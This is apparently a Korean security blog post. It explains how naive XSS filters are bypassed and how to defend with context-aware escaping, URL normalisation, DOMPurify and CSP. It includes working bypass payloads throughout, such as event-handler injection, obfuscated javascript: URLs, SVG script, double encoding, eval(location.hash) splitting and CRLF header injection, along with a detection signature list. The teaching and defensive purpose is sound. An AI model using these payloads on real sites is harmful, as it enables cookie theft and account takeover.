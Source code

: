 ```yaml
---
title: "[Infosec] XSS 필터링 우회 : 개념·우회 패턴·실전 대응"
date: 2025-09-16 12:40:00 +0900
categories: [보안, Web]
tags: [웹해킹, XSS, FilteringBypass, Encoding, URL, SVG, TemplateInjection, CSP]
description: "XSS 필터링을 우회해보자"
toc: true
---
```

> ⚠️ 학습/방어 목적 문서입니다. 테스트는 반드시 본인 환경(로컬/CTF)에서만 진행하세요.

---

## 요약
이 문서는 **잘못된(deny/naive) 필터링**에 대한 우회 기법을 모아 정리한 보강판입니다.  
추가된 내용: **SVG XSS, React/Angular 템플릿 주입(간단히), CSP 실전 설정 예시, Burp/탐지 체크리스트**를 포함합니다.

핵심: **검증 → 정규화 → 컨텍스트별 인코딩** 이 가장 안전하고 실무 적용 우선순위입니다.

---

## 1. 이벤트 핸들러(on*) — 요점 및 우회 기법
- 이벤트 핸들러 속성(onload/onerror/onfocus 등)은 HTML 속성 컨텍스트에서 그대로 실행될 수 있음.
- 방어 실패 사례: 단순히 `<script>` 태그와 `onerror` 문자열을 금지하는 필터.
- 우회 포인트:
  - 속성 이름을 분할/재조합 또는 중복 삽입으로 복원 (`oneonerrorrror` → `onerror` 재조합)
  - `autofocus`, `tabindex` 등으로 자동 트리거
  - `iframe srcdoc`/`innerHTML`을 통해 이벤트 핸들러 주입

예시:
```html
<input id="x" autofocus onfocus="alert(document.cookie)">
<iframe srcdoc="&lt;img src=1 onerror=alert(document.domain)&gt;"></iframe>
```

---

## 2. 문자열 치환/반복 치환의 한계
- 반복적으로 `replace()` 하더라도 예상치 못한 중첩/중간 문자열을 이용해 키워드를 복원 가능.
- 결론: **키워드 제거는 디펜스 아키텍처로 부적합**.  
  항상 **출력 컨텍스트**에 맞춘 이스케이프가 정답.

---

## 3. 활성 하이퍼링크(`javascript:`) 정규화 우회
- 브라우저는 다양한 escape/encoding을 정규화함.
- 방어: 정규화(`new URL(x, base)`) 후 `protocol` 비교. 그러나 오래된 브라우저/기기 차이 고려 필요.
- 권장: 프로토콜 화이트리스트(`http(s)`만 허용).

우회 예시:
```html
<a href="\1\4jAVasC\triPT:alert(1)">x</a>
```

방어 코드(예시):
```js
try {
  const u = new URL(userHref, document.baseURI);
  if (u.protocol !== 'http:' && u.protocol !== 'https:') throw 'bad';
} catch(e){ /* reject */ }
```

---

## 4. 태그·속성 기반 필터의 우회 (대/소문자, 줄바꿈, 대체 태그)
- HTML은 대소문자 구분 없음, 속성은 공백/줄바꿈으로 분리 가능.
- `on*` 검사에서 줄바꿈/탭 `\n`으로 우회 가능.
- 대체 태그(`video`, `source`, `svg`, `math`, `iframe`)로 우회 가능.

예시 우회:
```html
<img src="" 
onerror="alert(1)">
<video><source onerror="alert(1)"/></video>
```

---

## 5. SVG XSS
- `<svg>`과 그 내부 태그(`<foreignObject>`, `<script>`, `<image onerror=...>`)는 자주 간과됨.
- SVG은 XML 네임스페이스와 폰트/외부 리소스 로딩을 허용하므로 공격면이 큼.

예시:
```html
<svg xmlns="http://www.w3.org/2000/svg">
  <script>alert(document.domain)</script>
</svg>
```
또는:
```html
<svg><image href="invalid" onerror="alert(1)"></image></svg>
```

방어 팁:
- SVG를 사용자 업로드로 허용할 때는 **완전 샌드박스 처리(렌더되지 않게, 또는 스크립트 제거)** 하거나 **content-disposition: attachment**로 강제 다운로드.
- SVG 파서로 허용 태그/속성만 필터링. (화이트리스트 방식)

---

## 6. React / Angular / Template Injection
- **React**: JSX `dangerouslySetInnerHTML`를 쓰지 않으면 보통 안전. 그러나 서버에서 렌더된 HTML을 React가 innerHTML로 넣거나, 서버 템플릿에서 치환 없이 출력하면 문제.
- **Angular**: 바인딩 컨텍스트(`[]`, `()`)와 `innerHTML` 사용 주의. Angular는 자체 sanitizer를 제공하지만, `bypassSecurityTrustHtml`은 위험.
- **서버 템플릿 주입**: 서버 템플릿 엔진(예: ejs, nunjucks, jinja2)에서 autoescape를 끈 경우 위험.

권장:
- 프레임워크 기본 escaping 사용. 서버에서 렌더할 때도 템플릿의 autoescape 켜기.
- 사용자 HTML을 꼭 허용해야 하면, **DOMPurify** 같은 검증된 라이브러리로 정화.

---

## 7. JS 언어 특성 기반 우회
- Unicode escape, `String.fromCharCode`, computed member access (`document['coo'+'kie']`), 숫자→36진수 등.
- 극단적: **JSFuck** 같은 방식으로 키워드 없이도 동작한다 (길지만 우회 가능).

예시:
```js
window['al'+'ert'](document['coo'+'kie']);
```
또는:
```js
String.fromCharCode(97,108,101,114,116) // "alert"
```

---

## 8. 디코딩 전/후 검증(더블 디코딩) 문제
- 원칙: **입력은 정규화(디코딩) → 검증 → 저장**의 순으로 한 번만 처리.
- 실수 사례: 검증은 인코딩된 상태에서, 실제 사용은 디코딩 상태에서 이루어짐 → 우회 가능.

예시 공격:
```
/search?query=%253Cscript%253Ealert(1)%253C/script%253E
```

방어: 서버에서 수신한 모든 URL 인자에 대해 `decodeURIComponent` 동일 횟수로 적용한 뒤 검사.

---

## 9. 길이 제한/분할 저장 우회
- 제한된 입력 길이를 회피하려면 페이로드를 여러 공간(해시/쿠키/localStorage/외부 스크립트)으로 분산.
- 常用 기법: `location.hash` + `eval(location.hash.slice(1))` (eval은 최대한 금지)

예시:
```
https://victim/?q=<img onerror="eval(location.hash.slice(1))">#alert(document.cookie)
```

---

## 10. CSP(Content Security Policy) 실전 예시
- CSP은 XSS 피해 규모를 줄이는 강력한 수단. 예시 헤더:
```
Content-Security-Policy: default-src 'none'; script-src 'self' 'sha256-<HASH>'; object-src 'none'; base-uri 'self'; frame-ancestors 'none';
```
- nonce 기반 또는 해시 기반 정책 권장 (`'nonce-...'` 또는 `'sha256-...'`)  
- 주의: `unsafe-inline` 과 `unsafe-eval` 은 피해 감소 효과를 없애므로 사용 금지.

---

## 11. 탐지·테스트 체크리스트 (Burp/자동화)
- 시그니처: `onerror=`, `onload=`, `<script`, `<svg`, `srcdoc=`, `javascript:`
- 정규화 후 검사: `new URL(payload, base)`를 사용해 `protocol`/`host` 검증
- 자동투입 페이로드: 다양한 인코딩(`%25`, `%09`, `%0A`, `%0D`, `\x`, `\u`)과 대소문자 변형
- Burp Intruder Payloads: JSFuck snippets, SVG payloads, event-handler snippets, template injection markers (`{{ }}`, `<% %>`)
- 탐지 로그: 입력 저장시의 원본+정규화된 값 모두 로깅

---

## 12. 제어문자 / 퍼센트-인코딩 (`%09`, `%0A`, `%08` 등)
### 왜 중요한가?
퍼센트로 인코딩된 제어문자(예: `%09` 탭, `%0A` LF, `%0D` CR, `%00` NUL, `%08` BS 등)는 디코딩·정규화 과정에서 제거되거나 공백으로 바뀌어 필터를 우회할 수 있습니다. 특히 URL 스킴, 속성 분리, HTTP 헤더 조작(CRLF)에서 큰 위협.

### 공격 예시
- `ja%09vascript:alert(1)` → 일부 정규화에서 `javascript:`로 복구
- 속성 분리: `<img src="x"%0Aonerror=alert(1)>`
- 헤더 주입: `Set-Cookie: x=1%0D%0ASet-Cookie: hacked=1` (잘못 처리 시)
